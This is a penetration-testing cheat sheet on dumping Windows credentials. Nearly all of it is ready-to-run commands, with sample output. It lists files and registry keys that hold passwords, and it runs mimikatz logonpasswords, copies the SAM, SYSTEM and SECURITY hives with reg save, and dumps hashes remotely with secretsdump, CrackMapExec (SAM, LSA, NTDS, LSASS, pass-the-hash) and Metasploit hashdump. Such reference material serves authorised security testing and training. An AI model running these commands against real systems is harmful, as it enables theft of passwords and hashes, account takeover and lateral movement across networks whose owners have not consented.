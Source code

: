 # Dumping credentials

## Locally

### Interesting File System

<details>

<summary>Windows configuration file</summary>

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

</details>

<details>

<summary>Powershell History</summary>



Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands.

```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

</details>

<details>

<summary>Saved Windows Credentials</summary>

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```shell-session
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```shell-session
runas /savecred /user:admin cmd.exe
```

***

This directory contain all credentials saved by Windows

```
cd C:\Windows\System32\config
```

</details>

<details>

<summary>IIS Configuration</summary>



Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Here is a quick way to find database connection strings on the file:

{% code title="Powershell" %}
```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
{% endcode %}

</details>

<details>

<summary>Auto Logon Credentials</summary>

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

</details>

### Retrive from Softwares

<details>

<summary>PuTTY</summary>

PuTTY is a popular SSH client for Windows. It allows users to save sessions with connection details like IP and username, so they don't have to enter them every time. Though PuTTY doesn't save SSH passwords, it does save proxy settings with plain text passwords. To find saved proxy passwords, look for the `ProxyPassword` under this registry key using the following command:

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

{% hint style="info" %}
Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
{% endhint %}

</details>



### Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

Then, we need to transfer the tool to dump hashes to the target machine.

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```



## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.



### Impacket's secretsdump&#x20;

```bash
impacket-secretsdump $DOMAIN.COM/$USER:$PASS@$DC_IP
```

```bash
impacket-secretsdump administrator:@$IP -hashes $LM:$NT
```



### CrackMapExec



```bash
# print all module
crackmapexec smb -L
```



#### Mimikatz

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --ntds
```

#### Dump LSASS

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --lsassy

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' -M lsassy
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
use post/windows/gather/hashdump
set SESSION
run
```





## Hash-Identify

This is a tool that simplify the hash type detection

```bash
hash-identifier
# paste your hash
```



